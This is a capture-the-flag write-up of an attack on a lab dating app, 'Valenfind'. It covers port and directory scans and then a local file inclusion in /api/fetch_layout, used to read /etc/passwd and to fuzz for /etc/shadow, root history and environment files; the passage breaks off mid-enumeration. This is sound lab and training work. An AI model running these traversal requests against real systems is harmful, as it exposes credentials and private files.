










## Scenario

> My Dearest Hacker,
> 
> There's this new dating app called "Valenfind" that just popped up out of nowhere. I hear the creator only learned to code this year; surely this must be vibe-coded. Can you exploit it?
> 
> You can access it here: http://10.112.179.60:5000
> 
> With love,  
> Chief Inspector Valentine 💕

Access via: `http://10.112.179.60:5000`

## Reconnaissance

### Checking the Site by Eye

Had a look through the pages first — the landing page, the login page and the register page. 







Checked source on all of them, but nothing interesting turned up.
### Port Scanning

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.112.179.60         
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-01 21:59 +0200
Nmap scan report for 10.112.179.60
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds
```

**Breakdown:**

- `sudo` runs the scan as root, which lets nmap use a raw-socket SYN scan instead of a slower full TCP connect
- `-p-` scans every port in the 1–65535 range rather than nmap's default top-1000 list
- `10.112.179.60` is the target

As a whole, the line finds every open port on the box: SSH on 22 and something on 5000.

Followed it up with a version/service scan against just those two ports:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p22,5000 -sV -sC 10.112.179.60
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-01 22:00 +0200
Nmap scan report for 10.112.179.60
Host is up (0.037s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:3d:ab:2a:6e:34:1e:4d:44:81:e7:1d:eb:e5:02:24 (ECDSA)
|_  256 1d:0d:a1:d6:a0:af:ca:2c:b1:6a:c3:08:9d:af:5f:4b (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: ValenFind - Secure Dating
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds
```

**Breakdown:**

- `-p22,5000` restricts the scan to just the two ports already found open, instead of re-scanning the full range
- `-sV` probes each open port to identify the service and its version
- `-sC` runs nmap's default set of non-intrusive scripts (e.g. pulling the SSH host keys, grabbing the HTTP title and server header)

Port 5000 is running the Werkzeug development server — Flask's built-in server — on Python 3.12.3, serving a page titled "ValenFind - Secure Dating".

### Fingerprinting the Web Stack

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ whatweb http://10.112.179.60:5000/        
http://10.112.179.60:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.1 Python/3.12.3], IP[10.112.179.60], Python[3.12.3], Title[ValenFind - Secure Dating], Werkzeug[3.0.1]
```

`whatweb` fingerprints the running web stack from the HTTP response, confirming the same Flask/Werkzeug/Python 3.12.3 combination nmap already reported.

Searched Werkzeug version 3.0.1 vulnerabilities on Google. The severe RCE did not look relevant, and neither did the second, since that one assumed a Windows host.



```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ping 10.112.179.60     
PING 10.112.179.60 (10.112.179.60) 56(84) bytes of data.
64 bytes from 10.112.179.60: icmp_seq=1 ttl=62 time=36.8 ms
64 bytes from 10.112.179.60: icmp_seq=2 ttl=62 time=36.0 ms
64 bytes from 10.112.179.60: icmp_seq=3 ttl=62 time=36.0 ms
```

`ping` with no flags just confirms the host is reachable and reports the reply TTL. A TTL of 62 sits just under Linux's standard starting value of 64 (Windows starts at 128), so the host is unlikely to be Windows — which also rules out the Windows-specific path traversal CVE found above.

### Directory Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.179.60:5000/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

                        [Status: 200, Size: 2506, Words: 488, Lines: 46, Duration: 40ms]
login                   [Status: 200, Size: 2682, Words: 531, Lines: 51, Duration: 43ms]
register                [Status: 200, Size: 2694, Words: 532, Lines: 51, Duration: 42ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 40ms]
dashboard               [Status: 302, Size: 199, Words: 18, Lines: 6, Duration: 41ms]
my_profile              [Status: 302, Size: 199, Words: 18, Lines: 6, Duration: 38ms]
                        [Status: 200, Size: 2506, Words: 488, Lines: 46, Duration: 37ms]
```

**Breakdown:**

- `-u 'http://10.112.179.60:5000/FUZZ'` sets the target URL, with `FUZZ` marking where each wordlist entry is substituted
- `-w /usr/share/wordlists/seclists/.../DirBuster-2007_directory-list-2.3-medium.txt` supplies the wordlist of candidate paths
- `-ic` ignores comment lines in the wordlist
- `-c` colourises the terminal output

`login`, `register`, `logout`, `dashboard` and `my_profile` all resolve. `robots.txt` and `sitemap.xml` did not exist either.

### Attempting Default Credentials

Tried `admin:admin` against the login form, but that returned "Invalid credentials." Also checked the login request in the browser's dev tools and confirmed it is a plain POST to `/login`.




Dead end: no default credentials worked, and this route did not progress further.

## Exploring the Application

### Creating an Account

With no obvious way in, the realistic option was to register and see what a logged-in user could reach. Created an account: `Hacker:Hacker`, and filled the rest of the profile form in with hacker-adjacent text.


That dropped into the `/dashboard` page, listing other users' profiles.



Viewed source on the dashboard. Nothing interesting there either.

### Finding the Dynamic Layout Endpoint

Clicked onto Romeo's profile at `/profile/romeo_montague` and viewed source again. This time something stood out:



```html
<script>
    // Initial load
    document.addEventListener("DOMContentLoaded", function() {
        loadTheme('theme_classic.html');
    });

    function loadTheme(layoutName) {
        // Feature: Dynamic Layout Fetching
        fetch(`/api/fetch_layout?layout=${layoutName}`)
            .then(r => r.text())
            .then(html => {
                const bioText = "Looking for my Juliet. Where art thou?";
                const username = "romeo_montague";
                
                // Client-side rendering of the fetched template
                let rendered = html.replace('__USERNAME__', username)
                                   .replace('__BIO__', bioText);
                
                document.getElementById('bio-container').innerHTML = rendered;
            })
            .catch(e => {
                console.error(e);
                document.getElementById('bio-container').innerText = "Error loading theme.";
            });
    }
</script>
```

There is an endpoint at `/api/fetch_layout?layout=`, which fetches a named theme file and splices the username and bio text into it client-side. Worth testing for local file inclusion (LFI).

## Exploiting the Local File Inclusion

### Confirming LFI with `/etc/passwd`

Typed the endpoint into the browser with an empty `layout` value first:

```
http://10.112.179.60:5000/api/fetch_layout?layout=
```



It looked at first as if `/opt/Valenfind/templates/components` was always prepended to the `layout` value — but that was just the default theme file living there. A plain `/etc/passwd` confirmed arbitrary path traversal:

```
http://10.112.179.60:5000/api/fetch_layout?layout=/etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin dhcpcd:x:114:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false polkitd:x:997:997:User for polkitd:/:/usr/sbin/nologin 
```

Not really anything usable in this on its own, but it confirmed the LFI.

### Hunting for Source Code

With LFI confirmed, ran a wordlist against the endpoint going after other interesting files on the Linux filesystem:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.179.60:5000/api/fetch_layout?layout=FUZZ' -w /usr/share/wordlists/dragonjar/LFI-WordList-Linux -ic -c -fs 0-200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

/etc/adduser.conf       [Status: 200, Size: 3444, Words: 359, Lines: 110, Duration: 56ms]
/etc/bash.bashrc        [Status: 200, Size: 2319, Words: 399, Lines: 72, Duration: 42ms]
/etc/ca-certificates.conf [Status: 200, Size: 8023, Words: 64, Lines: 198, Duration: 37ms]
/etc/ca-certificates.conf.dpkg-old [Status: 200, Size: 5714, Words: 64, Lines: 140, Duration: 36ms]
/etc/crontab            [Status: 200, Size: 1136, Words: 192, Lines: 24, Duration: 55ms]
/etc/debconf.conf       [Status: 200, Size: 2967, Words: 409, Lines: 84, Duration: 46ms]
/etc/default/grub       [Status: 200, Size: 1208, Words: 142, Lines: 34, Duration: 44ms]
/etc/deluser.conf       [Status: 200, Size: 1706, Words: 221, Lines: 42, Duration: 46ms]
/etc/group              [Status: 200, Size: 907, Words: 1, Lines: 64, Duration: 40ms]
/etc/hdparm.conf        [Status: 200, Size: 4436, Words: 660, Lines: 126, Duration: 42ms]
/etc/hosts.allow        [Status: 200, Size: 411, Words: 82, Lines: 11, Duration: 47ms]
/etc/fuse.conf          [Status: 200, Size: 694, Words: 112, Lines: 18, Duration: 47ms]
/etc/hosts.deny         [Status: 200, Size: 711, Words: 128, Lines: 18, Duration: 52ms]
/etc/group-             [Status: 200, Size: 895, Words: 1, Lines: 63, Duration: 52ms]
/etc/hosts              [Status: 200, Size: 221, Words: 18, Lines: 10, Duration: 57ms]
/etc/login.defs         [Status: 200, Size: 12345, Words: 1894, Lines: 396, Duration: 37ms]
/etc/mtab               [Status: 200, Size: 2726, Words: 171, Lines: 35, Duration: 47ms]
/etc/manpath.config     [Status: 200, Size: 5230, Words: 533, Lines: 133, Duration: 66ms]
/etc/ldap/ldap.conf     [Status: 200, Size: 334, Words: 23, Lines: 18, Duration: 36ms]
/etc/modules            [Status: 200, Size: 212, Words: 28, Lines: 5, Duration: 57ms]
/etc/logrotate.conf     [Status: 200, Size: 586, Words: 84, Lines: 28, Duration: 76ms]
/etc/os-release         [Status: 200, Size: 400, Words: 6, Lines: 14, Duration: 45ms]
/etc/pam.conf           [Status: 200, Size: 552, Words: 65, Lines: 16, Duration: 43ms]
/etc/passwd-            [Status: 200, Size: 1966, Words: 18, Lines: 37, Duration: 43ms]
/etc/passwd             [Status: 200, Size: 2021, Words: 20, Lines: 38, Duration: 53ms]
/etc/profile            [Status: 200, Size: 582, Words: 145, Lines: 28, Duration: 73ms]
/etc/resolv.conf        [Status: 200, Size: 948, Words: 121, Lines: 24, Duration: 43ms]
/etc/security/access.conf [Status: 200, Size: 4564, Words: 635, Lines: 123, Duration: 39ms]
/etc/security/limits.conf [Status: 200, Size: 2752, Words: 835, Lines: 68, Duration: 38ms]
/etc/security/group.conf [Status: 200, Size: 3635, Words: 690, Lines: 107, Duration: 45ms]
/etc/security/pam_env.conf [Status: 200, Size: 2971, Words: 429, Lines: 74, Duration: 41ms]
/etc/security/namespace.conf [Status: 200, Size: 1637, Words: 246, Lines: 32, Duration: 40ms]
/etc/security/sepermit.conf [Status: 200, Size: 418, Words: 106, Lines: 12, Duration: 39ms]
/etc/security/time.conf [Status: 200, Size: 2179, Words: 342, Lines: 66, Duration: 45ms]
/etc/sensors3.conf      [Status: 200, Size: 10593, Words: 2648, Lines: 537, Duration: 47ms]
/etc/shadow             [Status: 200, Size: 1041, Words: 1, Lines: 38, Duration: 44ms]
/etc/shadow-            [Status: 200, Size: 1041, Words: 1, Lines: 38, Duration: 45ms]
/etc/ssh/sshd_config    [Status: 200, Size: 3515, Words: 322, Lines: 132, Duration: 40ms]
/etc/sudoers            [Status: 200, Size: 1800, Words: 201, Lines: 58, Duration: 38ms]
/etc/sysctl.conf        [Status: 200, Size: 2209, Words: 234, Lines: 65, Duration: 40ms]
/proc/cpuinfo           [Status: 200, Size: 2182, Words: 271, Lines: 57, Duration: 41ms]
/proc/devices           [Status: 200, Size: 612, Words: 102, Lines: 65, Duration: 41ms]
/proc/meminfo           [Status: 200, Size: 1531, Words: 563, Lines: 56, Duration: 39ms]
/proc/net/udp           [Status: 200, Size: 512, Words: 135, Lines: 5, Duration: 37ms]
/proc/self/environ      [Status: 200, Size: 376, Words: 1, Lines: 1, Duration: 38ms]
/proc/self/mounts       [Status: 200, Size: 2726, Words: 171, Lines: 35, Duration: 40ms]
/proc/self/fd/9         [Status: 200, Size: 2726, Words: 171, Lines: 35, Duration: 40ms]
/proc/self/stat         [Status: 200, Size: 287, Words: 52, Lines: 2, Duration: 37ms]
/proc/self/status       [Status: 200, Size: 1459, Words: 88, Lines: 62, Duration: 37ms]
/proc/version           [Status: 200, Size: 210, Words: 23, Lines: 2, Duration: 40ms]
/root/.bash_history     [Status: 200, Size: 335, Words: 37, Lines: 21, Duration: 39ms]
/root/.bashrc           [Status: 200, Size: 3106, Words: 433, Lines: 100, Duration: 38ms]
/proc/net/tcp           [Status: 200, Size: 175500, Words: 70989, Lines: 1171, Duration: 50ms]
/var/log/auth.log       [Status: 200, Size: 3900, Words: 315, Lines: 31, Duration: 38ms]
/var/log/kern.log       [Status: 200, Size: 55715, Words: 4400, Lines: 494, Duration: 37ms]
/var/log/kern.log.1     [Status: 200, Size: 116948, Words: 9109, Lines: 1012, Duration: 37ms]
/var/log/syslog         [Status: 200, Size: 31100450, Words: 0, Lines: 0, Duration: 0ms]
/var/log/syslog.1       [Status: 200, Size: 329185, Words: 25478, Lines: 2513, Duration: 40ms]
:: Progress: [771/771] :: Job [1/1] :: 349 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

**Breakdown:**

- `-w /usr/share/wordlists/dragonjar/LFI-WordList-Linux` swaps in a wordlist of common Linux files and paths, since this is a confirmed LFI
- `-fs 0-200` filters out responses whose size falls in the 0–200 byte range, hiding the generic "Error loading theme layout" responses for paths that do not exist

Dead end: checked `/etc/shadow`, `/var/log/auth.log`, `/root/.bash_history` and the rest of the interesting hits, but none of them held anything useful towards the flag.

With no luck from a generic Linux file list, the next step was to enumerate the application's own source directory tree, since this is a Flask app and the source would be `.py` files. 


```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.179.60:5000/api/fetch_layout?layout=FUZZ.py' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c -fs 0-150

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

.well-known/apple-developer-merchantid-domain-association [Status: 200, Size: 163, Words: 12, Lines: 1, Duration: 37ms]
dns-query?dns=q80BAAABAAAAAAAAA3d3dwdleGFtcGxlA2NvbQAAAQAB [Status: 200, Size: 164, Words: 12, Lines: 1, Duration: 40ms]
:: Progress: [4750/4750] :: Job [1/1] :: 454 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

Dead end: `FUZZ.py` resolved against `templates/components/` (the default base directory for the endpoint), and nothing of substance turned up.

Tried a directory level up instead, targeting `/opt/Valenfind/templates/`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.179.60:5000/api/fetch_layout?layout=/opt/Valenfind/templates/FUZZ.py' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c -fs 0-120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

.well-known/acme-challenge [Status: 200, Size: 121, Words: 12, Lines: 1, Duration: 37ms]
.well-known/apple-app-site-association [Status: 200, Size: 133, Words: 12, Lines: 1, Duration: 38ms]
.well-known/apple-developer-merchantid-domain-association [Status: 200, Size: 152, Words: 12, Lines: 1, Duration: 39ms]
.well-known/assetlinks.json [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 38ms]
